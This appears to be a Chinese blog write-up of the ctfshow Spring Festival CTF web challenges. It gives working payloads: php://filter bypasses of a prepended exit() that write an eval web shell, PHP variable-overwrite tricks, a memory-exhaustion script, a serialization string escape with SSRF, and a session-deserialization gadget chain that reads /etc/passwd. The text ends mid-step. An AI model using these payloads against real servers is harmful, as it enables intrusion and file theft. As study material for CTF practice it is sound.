---
title: "ctfshow新春欢乐赛(已做完)"
date: 2025-04-17T20:20:14+08:00
summary: "ctfshow新春欢乐赛(已做完)"
url: "/posts/ctfshow新春欢乐赛(已做完)/"
categories:
  - "ctfshow"
tags:
  - "新春欢乐赛"
draft: false
---

# 热身



这个确实是热身，一开始以为直接找flag就行，但是没找到，后面查看了一下phpinfo找到了一个路径



auto_prepend_file 是 PHP 的一个配置选项，用于指定在每个 PHP 脚本执行之前自动包含的文件。

这个文件路径看着比较可疑，所以我去读取了一下，果然是有flag的

# web1



## #死亡exit()绕过

意思就是我们无论写入什么都会因为插入一句exit()去强制结束运行

需要绕过exit()的地方一般都是`file_put_contents`

主要思路：利用php伪协议的写过滤器，对即将要写的内容（content）进行处理后，会将<?php exit();处理成php无法解析的内容，而我们的content则会被处理成正常的payload。

大致有如下三种

```
file_put_contents($filename,"<?php exit();".$content);
file_put_contents($content,"<?php exit();".$content);
file_put_contents($filename,$content . "\nxxxxxx");
```

## 第一种:

```
file_put_contents($filename,"<?php exit();".$content);
```

#### base64编码绕过

```
filename=php://filter/convert.base64-decode/resource=shell.php
content=aPD9waHAgcGhwaW5mbygpOz8+
```

利用`php://filter`，先将内容进行解码后再写入文件

`<?php phpinfo();?>`base64编码后为`aPD9waHAgcGhwaW5mbygpOz8+`，至于为什么前面要加个`a`，是因为base64解码以4个字节为1组转换为3个字节，前面的`<?php exit();`符合base64编码的只有`phpexit`这7个字节，因此添加一个字节来满足编码

#### rot13编码绕过

```
filename=php://filter/convert.string.rot13/resource=shell.php
content=<?cuc cucvasb();?>
```

#### 过滤器嵌套绕过

一种payload

```
filename=php://filter/string.strip_tags|convert.base64-decode/resource=shell.php
content=?>PD9waHAgcGhwaW5mbygpOz8+
```

`string.strip_tags`可以过滤掉html标签和php标签里的内容，然后再进行base64解码

## 第二种

第二种情况也就是我们题目中的

```
file_put_contents($content,"<?php exit();".$content);
```

#### rot13编码绕过

首先我们要了解一下rot13加密



了解了rot13转换之后，我们可以想到，他只会把字母替换，而其他的数字、符号不受影响
那么我们就可以这样来想，破坏掉`exit`来插入我们想要执行的语句

例如我们想构造phpinfo

payload:

```
<?cuc cucvasb();?>为<?php phpinfo();?>的rot13加密转化
```

那我们试着传入这个文件

```
content=php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=shell.php
```

- **`php://filter`**: 这是 PHP 提供的一种流过滤器，可以对输入流进行处理。

- **`write=string.rot13`**:这是一个写过滤器，表示对数据进行 ROT13 加密。

- **`/resource=shell.php`**: 这是指定的资源文件，可能是一个 PHP 文件。

然后我们访问shell.php可以看到成功执行了



说明我们的exit是已经被破坏掉了，这时候我们写入一句话木马

```
?content=php://filter/write=string.rot13|<?cuc @riny($_CBFG[cmd]);?>|/resource=shell.php
```

注意这个密码cmd不是我们的密码，而是rot13加密后的密码，所以这个密码正确的应该是pzq(一直以为是我马子没写进去，疯狂传马，后面才意识到这个问题)



看到自己写了这么多马，笑死了

# web2

## #变量覆盖

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-01-16 15:42:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-01-24 22:14:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

highlight_file(__FILE__);
session_start();
error_reporting(0);

include "flag.php";

if(count($_POST)===1){
        extract($_POST);
        if (call_user_func($$$$$${key($_POST)})==="HappyNewYear"){
                echo $flag;
        }
}
?>
```

首先关注的是call_user_func()那句话，如果这个函数存在并返回的结果是字符串，但是我们还是需要重点了解语句里面的`$$$$$${key($_POST)}`

我们先举一个简单的例子



可以看到经过这个变量的多层覆盖，最终可以实现正常的运行结果

这里要求call_user_func执行 post第一个参数的返回值为Happynewyear，但是这里call_user_func会把参数当作函数来执行，同时只有这一个函数，因此我们需要一个无参数函数返回值为 Happynewyear

一开始想着post传入HappyNewYear=a然后get传入a=HappyNewYear去进行变量覆盖的但是没打通,忘记这里是有一个call_user_func函数了

观察题目发现有一句session_start(); ，这里我们可以用session_id函数 ，他会返回PHPSESSID的值，我们设定PHPSESSID为Happynewyear



# web3

## #返回true的无参数函数

```php
highlight_file(__FILE__);
error_reporting(0);

include "flag.php";
$key=  call_user_func(($_GET[1]));

if($key=="HappyNewYear"){
  echo $flag;
}

die("虎年大吉，新春快乐！");

虎年大吉，新春快乐！
```

这里的话是一个弱比较的绕过，只要让判断结果为true就可以了，我们可以传入session_start

**session_start()函数 —** **启动新会话或者重用现有会话**

**成功开始会话返回 true ，反之返回 false**

当然这里不只是可以用session_start，那种返回值是true的无参数函数基本上也都可以用



# web4

## #返回后缀名的函数

```php
highlight_file(__FILE__);
error_reporting(0);

$key=  call_user_func(($_GET[1]));
file_put_contents($key, "<?php eval(\$_POST[1]);?>");

die("虎年大吉，新春快乐！");

虎年大吉，新春快乐！
```

`file_put_contents()`用于将数据内容写入文件，第一个参数就是传入文件的名字或者文件路径，而第二个参数就是我们的文件内容

文件内容是一句话木马，那么我们需要传入一个参数是可以返回我们的文件路径或者文件名的

一开始是使用的getcwd()函数去返回当前的目录，但是考虑到没有具体的文件名可以写不进去，所以后面查了一下可以用spl_autoload_extensions()函数




可以看到这里默认的扩展名是.inc,.php

然后我们传入spl_autoload_extensions，然后访问后可以用蚁剑连接也可以进行传参rce

# web5

## #使用内存溢出绕过file_put_contents机制

```php
error_reporting(0);
highlight_file(__FILE__);


include "🐯🐯.php";
file_put_contents("🐯", $flag);
$🐯 = str_replace("hu", "🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯", $_POST['🐯']);
file_put_contents("🐯", $🐯);
```

如果 `filename` 不存在，将会创建文件。反之，存在的文件将会重写。

在使用file_put_contents()函数的时候PHP 需要分配额外的内存来存储结果。如果结果字符串的总大小超过了 PHP 的内存限制，就会导致内存溢出。

而我们是要直接下载🐯去读取flag的，所以这里可以传入一大堆hu来让php报错，导致🐯文件不被覆盖，然后访问🐯下载即可

注意这里hu太多会导致上传失败提示文件过大，hu过少会导致php不报错，具体来说传入524280个hu即可

写个脚本吧

```python
import requests
url="http://63b4e936-07a0-43fc-a8ac-1cff415e6815.challenge.ctf.show/"
data={
    "🐯" : 524280*"hu"
}
r=requests.post(url,data=data)
print(r.text)
```

然后我们访问下载文件🐯就可以拿到flag了

# web6

## #字符串逃逸

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$function = $_GET['POST'];
function filter($img){
    $filter_arr = array('ctfshow','daniu','happyhuyear');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}//正则匹配
if($_SESSION){
    unset($_SESSION);
}//清空session会话内容
$_SESSION['function'] = $function;
extract($_POST['GET']);
$_SESSION['file'] = base64_encode("/root/flag");
$serialize_info = filter(serialize($_SESSION));
if($function == 'GET'){
    $userinfo = unserialize($serialize_info);
    //出题人已经拿过flag，题目正常,也就是说...
    echo file_get_contents(base64_decode($userinfo['file']));
}
```

先审代码

1.首先通过get获取一个值给$function变量

2.一个filter过滤函数的声明

3.unset()函数会清空session会话

4.将 $_function的值赋给 $_SESSION[‘function’]

5.通过post表单提交一个值给get参数并作为数组把键和值提取出来

6.设置session会话中file的值

7.使用filter过滤函数过滤后序列化session会话的数据并将结果赋值给$serialize_info

8.如果function的值为"GET"就反序列化serialize_info 并赋值给 $userinfo

9.使用`file_get_contents(base64_decode($userinfo['file']))` 将读取指定路径（`/root/flag`）的文件内容并输出。

所以这里的话我们get传参POST的值显而易见是需要设置为GET的，而关键就在于我们post传参的数组怎么设置了

这里的话考的是一个反序列化的字符串逃逸，因为这里题目注释里头提示出题人已经拿过flag了，所以我们可以在日志里面进行查看出题人的访问日志

我们先看一下服务器的版本是nginx/1.20.1，那nginx的成功日志的文件目录一般就是/var/log/nginx/access.log，，base64编码后是L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==而我们题目中的目录是/root/flag，base64编码后是`L3Jvb3QvZmxhZw==`，filter过滤函数是字符串减少的

所以我们的exp就是

```
原来题中的$serialize_info为
a:2:{s:8:"function";N;s:4:"file";s:16:"L3Jvb3QvZmxhZw==";}
我们的payload
GET[_SESSION][ctfshowdaniu]=s:1:";s:1:"1";s:4:"file";s:36:"L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==";}
因为是extract($_POST['GET']);，我们需要POST一个数组GET[_SESSION][ctfshowdaniu],这样传进去就可以得到$_SESSION数组变量，ctfshowdaniu是数组变量中的一个键。
```

所以原来我们的session数组为

{

"function"=>NULL

"file"=>L3Jvb3QvZmxhZw==

}

传入后值覆盖

{

“ctfshowdaniu”=>s:1:";s:1:“1”;s:4:“file”;s:36:“L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==”;}

“file”=>L3Jvb3QvZmxhZw==

}

序列化后的结果是

a:2:{s:12:"ctfshowdaniu";`s:70:"s:1:";s:1:“1”;s:4:“file”;s:36:“L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==”;}"`;s:4:"file";s:16:"L3Jvb3QvZmxhZw==";}

这里有人会问为什么我们要传入ctfshowdaniu？这里是为了利用filter函数中的`str_replace`替换成空，变成字符串减少的字符串逃逸。

经过filter过滤后变成

a:2:{s:12:"`";s:70:"s:1:`";s:1:“1”;s:4:“file”;s:36:“L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==”;}";s:4:"file";s:16:"L3Jvb3QvZmxhZw==";}

`ctfshowdaniu`刚好12个字符，替换成空后，需要12个字符来填充`";s:70:"s:1:`刚好12个字符，所以反序列化后的结果是

{

"";`s:70:"s:1:"=>"1"

"file"=>"L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw=="

}

这样就达到一个字符的逃逸，让后面的`s:4:"file";s:16:"L3Jvb3QvZmxhZw==";`不起作用了。

成功进行变量覆盖，可以看到日志文件



可以看到在我们传入?POST=GET之前是有访问了/ctfshow这个目录的，那我们换成/ctfshow就可以了

但是一开始访问没出来结果，猜测是在本地的目录中的/ctfshow需要进行ssrf，所以设置成`http://127.0.0.1/ctfshow`

payload

```
get传入?POST=GET
post传入GET[_SESSION][ctfshowdaniu]=s:1:";s:1:"1";s:4:"file";s:32:"aHR0cDovLzEyNy4wLjAuMS9jdGZzaG93";}
```

就可以拿到flag了

# web7

## #session反序列化

```php
<?php
include("class.php");
error_reporting(0);
highlight_file(__FILE__);
ini_set("session.serialize_handler", "php");
session_start();

if (isset($_GET['phpinfo']))
{
    phpinfo();
}
if (isset($_GET['source']))
{
    highlight_file("class.php");
}

$happy=new Happy();
$happy();
?>
Happy_New_Year!!!
```

先传入source看一下class.php

```php
<?php
    class Happy {
        public $happy;
        function __construct(){
                $this->happy="Happy_New_Year!!!";
        }
        function __destruct(){
                $this->happy->happy;
        }
        public function __call($funName, $arguments){//当调用对象中不存在的方法会自动调用该方法
                die($this->happy->$funName);
        }
        public function __set($key,$value)//将数据写入不可访问或者不存在的属性
        {
            $this->happy->$key = $value;
        }
        public function __invoke()//当你尝试将一个对象像函数一样调用时，__invoke() 会被触发。
        {
            echo $this->happy;
        }
    }
    class _New_{
        public $daniu;
        public $robot;
        public $notrobot;
        private $_New_;
        function __construct(){
                $this->daniu="I'm daniu.";
                $this->robot="I'm robot.";
                $this->notrobot="I'm not a robot.";
        }
        public function __call($funName, $arguments){//当调用对象中不存在的方法会自动调用该方法
                echo $this->daniu.$funName."not exists!!!";
        }
        public function __invoke()//当你尝试将一个对象像函数一样调用时，__invoke() 会被触发
        {
            echo $this->daniu;
            $this->daniu=$this->robot;
            echo $this->daniu;
        }
        public function __toString()//当一个对象被当作一个字符串被调用
        {
            $robot=$this->robot;
            $this->daniu->$robot=$this->notrobot;
            return (string)$this->daniu;
        }
        public function __get($key){//读取不可访问或者是不存在的属性时触发
               echo $this->daniu.$key."not exists!!!";
        }

 }
    class Year{
        public $zodiac;
         public function __invoke()//当你尝试将一个对象像函数一样调用时，__invoke() 会被触发。
        {
            echo "happy ".$this->zodiac." year!";
        }
         function __construct(){
                $this->zodiac="Hu";
        }
        public function __toString()//当一个对象被当作一个字符串被调用
        {
                $this->show();
        }
        public function __set($key,$value)#//将数据写入不可访问或者不存在的属性
        {
            $this->$key = $value;
        }
        public function show(){
            die(file_get_contents($this->zodiac));
        }
        public function __wakeup()
        {
            $this->zodiac = 'hu';
        }
    }
?>
```

如果单从Happy类中看的话是并没有发现什么危险函数可以用的，但是我们可以从Year类中看到一个file_get_contents()函数，那我们试着写一下链子

`Happy:__destruct()=>_New_:__get()=>_New_:__toString()=>Year:__toString()=>Year:Show()`

但是这里的话可以看到在源码中没有什么可用的参数去进行反序列化的操作，猜测可能是通过session反序列化去进行，当会话开始时，session_start()即会话开始时，会触发回调函数read()，该函数会返回会话数据，php会自动反序列化数据

我们传入一个phpinfo参数看看



可以看到脚本利用的反序列化引擎是php，而php.ini默认使用的引擎是php_serialize，这里引擎不一样，也就说明可能可以触发反序列化攻击了

然后我们知道php:存储方式是，键名+竖线+经过serialize()函数序列处理的值，

在phpinfo中可以发现，`session.upload_progress.enabled`为on，`session.upload_progress.cleanup`为off

什么意思呢?`session.upload_progress.enabled`为on意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中。`session.upload_progress.cleanup`为off意味着这些信息保存之后不会被清除掉，所以这道题我们是不需要打条件竞争的

编写我们的exp

```php
<?php
//`Happy:__destruct()=>_New_:__get()=>_New_:__toString()=>Year:__toString()=>Year:Show()`
class Happy {
    public $happy;
}

class _New_{
    public $daniu;
    public $robot;
    public $notrobot;

}
class Year{
    public $zodiac;

}

$a=new Happy();//实例化Happy对象
$a->happy=new _New_();//对象调用摧毁时会触发__destruct,将happy赋值为一个新的__New__对象访问happy属性,触发new的get方法
$a->happy->daniu=new _New_();//echo语句把对象当作字符串输出，将daniu赋值为一个新的__New__对象,触发tostring方法
$a->happy->daniu->daniu=new Year();//将daniu赋值为一个新的Year对象，（string）转换，就是将对象当作字符串，触发year的tostring方法，然后到show方法。
$a->happy->daniu->robot="zodiac";//在__New__的__toString方法中会访问daniu中的$robot属性,所以让robot的值为Year中的属性zodiac，从而访问到zodiac属性
$a->happy->daniu->notrobot="/etc/passwd";//将访问的zodiac属性赋值为/etc/passwd
echo serialize($a);
?>
//O:5:"Happy":1:{s:5:"happy";O:5:"_New_":3:{s:5:"daniu";O:5:"_New_":3:{s:5:"daniu";O:4:"Year":1:{s:6:"zodiac";N;}s:5:"robot";s:6:"zodiac";s:8:"notrobot";s:11:"/etc/passwd";}s:5:"robot";N;s:8:"notrobot";N;}}
```

构造完成后，这个时候我们需要从浏览器向服务器上传PHP_SESSION_UPLOAD_PROGRESS。

写个post上传表单的口子
